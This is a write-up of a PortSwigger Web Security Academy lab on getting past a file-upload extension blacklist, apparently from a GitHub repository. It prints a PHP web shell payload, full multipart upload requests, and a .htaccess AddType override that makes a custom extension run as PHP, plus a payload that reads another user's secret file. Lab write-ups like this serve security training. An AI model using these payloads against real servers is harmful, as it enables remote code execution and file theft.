 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/ebebf5e5-90e1-448c-9065-38df9a33c893)

## Overview :

One of the more obvious ways of preventing users from uploading malicious scripts is to blacklist potentially dangerous file extensions like .php. The practice of blacklisting is inherently flawed as it's difficult to explicitly block every possible file extension that could be used to execute code. Such blacklists can sometimes be bypassed by using lesser known, alternative file extensions that may still be executable, such as **.php5,.shtml,.oho4,.php7,.phtml** and so on. 

## Solution :

Login as wiener to access the upload functionality.

Upload a **.php** file with the following payload `<?php echo system($_GET['command']); ?>`.`

THe request sent is as follows,

```html
POST /my-account/avatar HTTP/2
Host: 0ac60088039dd25f82402e9300fb007e.web-security-academy.net
Cookie: session=GnGAzOUPjzGgNytcTKzcIplgL1T4H38L
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------35474142021105913272615045188
Content-Length: 524
Origin: https://0ac60088039dd25f82402e9300fb007e.web-security-academy.net
Referer: https://0ac60088039dd25f82402e9300fb007e.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------35474142021105913272615045188
Content-Disposition: form-data; name="avatar"; filename="file.php"
Content-Type: application/x-php

<?php echo system($_GET['command']); ?>

-----------------------------35474142021105913272615045188
Content-Disposition: form-data; name="user"

wiener
-----------------------------35474142021105913272615045188
Content-Disposition: form-data; name="csrf"

jLshXykyOmSzsk0t4U8ptEGdgN6k5NUE
-----------------------------35474142021105913272615045188--
```


We get an error response stating that **.php files are not allowed to be uploaded.**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/d92c9ee8-25ee-4fd9-9930-f7254289b044)

This is maybe because in the body of the request we have a `filename="file.php" parameter`. From this we may assume that the server identifies it as a **.php file extension**  and rejects the upload request.

### Byassing the extension bypass -

In the same request we can give other types of php like **php5/php4** etc..,

Modify the **filename=** parameter with the filename extension as **.php5**.

```
POST /my-account/avatar HTTP/2
Host: 0ac60088039dd25f82402e9300fb007e.web-security-academy.net
.
.
.
-----------------------------35474142021105913272615045188
Content-Disposition: form-data; name="avatar"; filename="file.php5"
Content-Type: application/x-php

<?php echo system($_GET['command']); ?>

-----------------------------35474142021105913272615045188
Content-Disposition: form-data; name="user"

wiener
-----------------------------35474142021105913272615045188
Content-Disposition: form-data; name="csrf"

jLshXykyOmSzsk0t4U8ptEGdgN6k5NUE
-----------------------------35474142021105913272615045188--
```
This time we get _file successfully uploaded_ message in the response response.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/90e0c5b1-161c-4cd5-8805-47a98a6cff26)

But still get nothing in response when we try to access the file.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/85df1cdc-ca07-4f4e-82b3-99dccfc97258)

Means the server is not executing .php files.

### Overriding server configuration -

Now we need to override the server's configuration. The server that we have here is **Apache server**. The apache server uses **.htaccess** file for directory configurations.(ie) which files should be executed etc..,

> Apache servers,  will load a directory-specific configuration from a file called .htaccess if one is present.


Now to override the **.htaccess** file , in the same POST request to upload the image we have to make two changes.

- Change the filename to .htaccess
- Replace the payload with this header : `AddType application/x-httpd-php .l33t`

```
AddType application/x-httpd-php .l33t
```

> The line `AddType application/x-httpd-php .l33t` added to the .htaccess file tells the web server (Apache) to treat files with a **.l33t** extension as PHP files.
> The AddType directive associates a given file extension with a specific MIME type, in this case, it associates the .l33t extension with the MIME type `application/x-httpd-php`, which is typically used for PHP files.
>
> **When this line is injected into the .htaccess file and a file with a .l33t extension is requested from the web server, Apache will handle it as if it were a PHP file and try to execute the embedded PHP code within it**.

So the request looks like this 

```
POST /my-account/avatar HTTP/2
.
.
.
-----------------------------9376413343136937474094370186
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: application/x-php

AddType application/x-httpd-php .l33t

-----------------------------9376413343136937474094370186
Content-Disposition: form-data; name="user"
.
.
```
Now we get a **200 OK** response saying **.htaccess file has been sucessfully uploaded**. Thus we have now overridden the server's configuration.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/edde90c8-a9ab-48d9-a80b-9413e47eed0c)

If we upload a file with **.l33t** extension, then the server will interpret it as .php file and execute it.

```
POST /my-account/avatar HTTP/2
.
.
-----------------------------41023172003987920362610215064
Content-Disposition: form-data; name="avatar"; filename="helo.l33t"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>

-----------------------------41023172003987920362610215064
Content-Disposition: form-data; name="user"
.
.
```

If we send this request, the file is now uploaded succesfully.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/cda9c9d5-24e0-4262-8523-eef141d05028)

Now fetch the image at **/files/avatars/helo.l33t** to get carlos's secret key.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/db815763-273b-4a08-a89f-358c580d6da3)

Submit he key to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/49cb2460-840f-48bb-be19-fe30b3089e41)

